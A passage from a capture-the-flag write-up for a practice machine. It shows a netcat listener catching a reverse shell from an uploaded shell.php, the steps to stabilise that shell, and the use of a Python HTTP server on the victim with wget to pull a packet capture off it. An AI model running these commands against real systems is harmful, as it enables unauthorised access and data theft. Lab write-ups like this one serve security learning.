 ```
nc -nlvp 1234
```
Now just access the shell through the ```/files/ftp/shell.php``` path.

### Shell Stabilisation ###
```
$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@startup:/$ export TERM=xterm-256color
export TERM=xterm-256color
```
Now background this session using ```CTRL + Z```.
```
stty raw -echo;fg
```
Press ```ENTER``` twice and there we go! Now we got ourselves a better shell. Let's get the recipe now.
```
www-data@startup:/$ ls
bin   home            lib         mnt         root  srv  vagrant
boot  incidents       lib64       opt         run   sys  var
dev   initrd.img      lost+found  proc        sbin  tmp  vmlinuz
etc   initrd.img.old  media       recipe.txt  snap  usr  vmlinuz.old
www-data@startup:/$ cat recipe.txt 
Someone asked what our main ingredient to our spice soup is today. I figured I can't keep it a secret forever and told him it was love.
```

## Getting User Flag ##
Interestingly enough, in the previous directory output we notice the ```incidents``` directory. Inspecting it further we stumble upon a ```Wireshark``` capture:
```
www-data@startup:/$ cd incidents/
www-data@startup:/incidents$ ls
suspicious.pcapng
```

Let's download this file to out host machine and investigate it.
First, start a python http server on the victim in that directory:
```
www-data@startup:/incidents$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 ...
```
Then, download it to our machine through HTTP:
```
wget http://10.10.133.97:8000/suspicious.pcapng                                                            4 ⨯
--2021-02-13 15:04:09--  http://10.10.133.97:8000/suspicious.pcapng
Connecting to 10.10.133.97:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 31224 (30K) [application/octet-stream]
Saving to: ‘suspicious.pcapng’

suspicious.pcapng            100%[=============================================>]  30.49K  --.-KB/s    in 0.1s    

2021-02-13 15:04:09 (211 KB/s) - ‘suspicious.pcapng’ saved [31224/31224]
```